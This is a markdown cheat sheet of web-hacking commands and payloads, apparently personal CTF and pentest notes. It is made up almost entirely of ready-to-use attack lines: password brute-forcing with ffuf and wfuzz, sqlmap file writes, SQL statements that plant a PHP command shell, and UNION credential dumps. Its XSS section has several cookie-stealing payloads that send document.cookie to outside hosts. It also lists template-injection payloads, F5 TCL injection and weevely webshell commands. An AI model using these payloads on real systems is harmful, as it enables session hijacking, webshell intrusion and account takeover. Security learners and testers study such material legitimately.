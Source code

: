 # Web Hacking
======

## Directory Busting
------
#### Gobuster
gobuster dir -u <ip> -w /usr/share/dirb/wordlists/big.txt
#### Dirbuster
dirb http://target/directory/ /usr/share/dirb/wordlists/common.txt
#### Find Parameters Wordlists
find . | grep -i param
#### Bust Parameter Names
wfuzz --hw 0 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt http://target.com/shell.php?FUZZ=id
#### Wfuzz Headers Through Proxy
wfuzz -u http://example.com/admin.php -H FUZZ:127.0.0.1 -w /usr/share/headers.txt -p 127.0.0.1:8080:HTTP
#### Wfuzz Multiple Parameters
wfuzz --hh 19 -u "http://10.10.36.35:8081/auth?login=FUZZ&password=FUZ2Z" -z file,users.txt -z file,/usr/share/wordlists/rockyou.txt
#### Wfuzz Subdomain Enumeration
wfuzz --hl 107 -u http://10.10.116.180 -H "Host: FUZZ.cmess.thm" -w /usr/share/wordlists/commonspeak2-subdomains.txt
#### ffuf with Headers
ffuf -w ../wordlists/common.txt -H "Cookie: token=foo; ctfchallenge=bar" -u http://www.vulnbegin.co.uk/cpadmin/FUZZ
#### ffuf to brute password
ffuf -w ../wordlists/10-million-password-list-top-100.txt -X POST -d "username=admin&password=FUZZ" -H "Cookie: ctfchallenge=cookie" -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk/cpadmin/login -mc all -fc 200

## Local File Inclusion
------
#### List of Windows Files
<a href="http://pwnwiki.io/?_escaped_fragment_=presence/windows/blind.md#!presence/windows/blind.md">Windows Blind Files</a>

## SQL Injection
------
#### Basic sqlmap
sqlmap -u <target-url>
#### sqlmap maximum risk & specify DBMS
sqlmap -u <target-url> --DBMS=MSSQL 
#### Specific sqlmap
sqlmap -u <url> --data 'param1=foo&param2=bar' --cookie 'MYCOOKEID=foobar; ANOTHERCOOKIE=foobar2' -p param1 -D <database-name> --file-write=file.php --file-dest=/var/www/wp-content/uploads/2020/05/file.php
#### MySQL (Inject malicious PHP code into file)
SELECT '<?php passthru($_GET[cmd])?>' INTO OUTFILE '/var/www/cmd.php'
#### Sqlite (Into Outfile equivalent)
```
ATTACH DATABASE '/home/devnull/public_html/test.php' as pwn;
	CREATE TABLE pwn.shell (code TEXT);
INSERT INTO pwn.shell (code) VALUES ("test");
```
#### Multiple Columns in a Single Column
' UNION SELECT username || '~' || password FROM users--
#### Allow login for user externally


## Odds & Ends
------
#### FireFox Browse Nonstandard Ports
about:config -- network.security.ports.banned.override (String <port-num>)
#### Webdav
sudo mount -t davfs http://<target-server>:<port> /mnt/webdav

## Wordpress
------
#### Post-Exploitation
Database credentials located in wp-config.php (cat wp-config.php | grep DB_)
#### Wordpress Scan
wpscan --url <domain>  -e ap,at,u,cb,dbe --password-attack 

## XSS
------
#### SVG - No spaces
<svg/OnLoad="`${prompt``}`">
#### Cookie Stealing
<script>document.write('<img src="https://www.hooperlabs.xyz/cookie?' + document.cookie + '">')</script>
#### Cookie Stealing
<iframe src=http://10.2.188.2 onload="this.src='http://10.2.188.2?' + document.cookie">
#### Cookie Stealing
<script>new Image().src="http://10.1.1.1/?cookie="+document.cookie;</script>
#### XSS Web Request
http://challenge.acictf.com:61470/search?search=foo&foobarh00p%3Csvg//onload%3d%22alert(1)%22%3E=%3Cscript%3E
#### SVG - No spaces
<svg/OnLoad="`${prompt``}`">
#### Cookie Stealing
<script>document.write('<img src="https://www.hooperlabs.xyz/cookie?' + document.cookie + '">')</script>
#### Cookie Stealing (with img)
function addImage(){var img = document.createElement('img');img.src = 'https://www.hooperlabs.xyz/' + document.cookie; document.body.appendChild(img);}; addImage();
#### Update Cookie within Browser
javascript:void(document.cookie="myCookie=thisismystolencookie");

## Crypto
------
#### ECB (ref)
<
#### Attacking ECB
+ 1. Determine the key block size.  Increment the PT by one until the CT changes by X bytes.  Usually 8 bytes or 16 bytes.
+   2. If possible, find an oracle.  That is, something that allows either PT --> CT or CT --> PT to arbitrary inputs
+   


## Cloud
------
#### Domain Hijacking
Have 404s pointing to a S3 bucket?  Take over the subdomain!
#### F5 TCL Injection (Send the following in JSESSIONID that doesn't respond typical JSESSIONID)
+ JSESSIONID=[TCP::respond {Hello ?}]
+ JSESIONID=[TCP::respond [info level 0]]
+ localhost
+  table set -subtable "cache" localhost {TCP::respond owned}


## SSTI
------
#### Jinja2 reads from templates directory
{{config}}

## CSTI
------
#### AngularJS
{{constructor.constructor('alert(123)')()}}
#### Vue
{{{}.toString.constructor('alert(123)')()}}

## Clone Websites
------
#### Download all files (wget)
wget -r -np -k <URL>

## Webshells
------
#### Generate password-protected webshell (weevely)
weevely generate mysecretpassword <path>
#### Interact with weevely webshell
weevely <url> mysecretpassword

## Create an XSS Victim Bot
------
#### PowerShell Bot to Execute JS
+ $ie = New-Object -com InternetExplorer.Application
+  $ie.visible=$true
+  $ie.navigate("http://vulnerable.com")
+  while($ie.ReadyState -ne 4){ start-sleep -m 1000 }
+  $ie.document.getElementsByName("username")[0].value="foo"
+  $ie.document.getElementsByName("password")[0].value="bar"
+  $ie.document.getElementsByClassName("btn")[0].click()
+  $ie.Quit()
+  [System.Runtime.Interopservices.Marshall]::ReleaseComObject($ie)
+  #Note... may need sleep statements
